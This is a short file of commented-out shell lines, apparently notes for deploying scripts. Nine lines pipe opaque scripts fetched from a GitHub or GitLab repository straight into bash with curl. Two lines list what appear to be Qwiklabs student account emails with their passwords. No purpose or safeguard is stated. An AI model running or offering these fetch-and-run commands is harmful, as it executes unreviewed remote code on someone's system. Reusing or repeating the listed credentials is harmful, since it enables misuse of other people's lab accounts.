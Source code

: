 # curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/anod.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/ye.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/nis.sh/nis.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/aaa.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/yeni.sh" | bash
# curl -sSL "https://gitlab.com/jasa4/jasa/-/raw/main/kilan" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/kilan" | bash

# student-04-871e8e0fd1ff@qwiklabs.net Fb4zyO6KDdPc
# student-01-8ff4f028ff4b@qwiklabs.net Uub1lN7wxx09
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/scalas.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/mbcmaster.sh" | bash
